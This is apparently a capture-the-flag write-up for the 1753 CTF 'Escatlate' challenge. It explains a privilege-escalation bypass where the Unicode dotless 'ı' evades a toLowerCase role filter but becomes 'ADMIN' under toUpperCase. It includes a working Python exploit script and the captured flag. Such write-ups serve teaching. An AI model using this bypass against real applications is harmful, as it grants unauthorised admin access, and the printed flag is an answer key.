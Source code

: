 # 1753 CTF - Escatlate Flag #2

## Approach

We need an `ADMIN` role to get the second flag, let's first see how the server checks the `ADMIN role:

During the registration:

```js
app.post('/api/register', (req, res) => {

    // ...

    if(req.body.role?.toLowerCase() == 'admin')
        return res.status(400).send('Invalid role');
```

During the verification:

```js
app.get('/api/message', (req, res) => {
    if(req.user.role.toUpperCase() === 'ADMIN')
        return res.json({ message: `Hi Admin! Your flag is ${process.env.ADMIN_FLAG}` });
```

To bypass the check, we need some JavaScript tricks related to `toUpperCase` and `toLowerCase`. Take a look at the code below:

```js
for (let i = 128; i < 65536; i++) {
  for (let ch of "abcdefghijklmnopqrstuvwxyz") {
    if (String.fromCharCode(i).toUpperCase() === ch.toUpperCase()) {
      console.log(
        i,
        `${String.fromCharCode(i)}.toUpperCase() = ${ch.toUpperCase()}`
      );
    }
    if (String.fromCharCode(i).toLowerCase() === ch) {
      console.log(i, `${String.fromCharCode(i)}.toLowerCase() = ${ch}`);
    }
  }
}
// 305 ı.toUpperCase() = I
// 383 ſ.toUpperCase() = S
// 8490 K.toLowerCase() = k
```

This a cheat sheet of this trick, and for this challenge we can use `ı` for `admın` to bypass the check during registration, and `"admın".toUpperCase()` will be `"ADMIN"`.

```python
import requests
import random

url = "https://escatlate-52bc47e034fa.1753ctf.com/api/"

rnd = str(random.randint(100000, 999999))
print(rnd)

resp = requests.post(url + "register", json={
    "username": rnd,
    "password": rnd,
    "role": "admın"  # <-- 'ı' is not 'i'!
})
print(resp.status_code, resp.text)

token = resp.json()["token"]

resp = requests.get(url + "message", headers={
    "X-Token": token
})
print(resp.text)  # {"message":"Hi Admin! Your flag is 1753c{w3ll_n0w_th4h_w4s_n0t_soooo_obv1ous}"}
```

## Flag

```
1753c{w3ll_n0w_th4h_w4s_n0t_soooo_obv1ous}
```
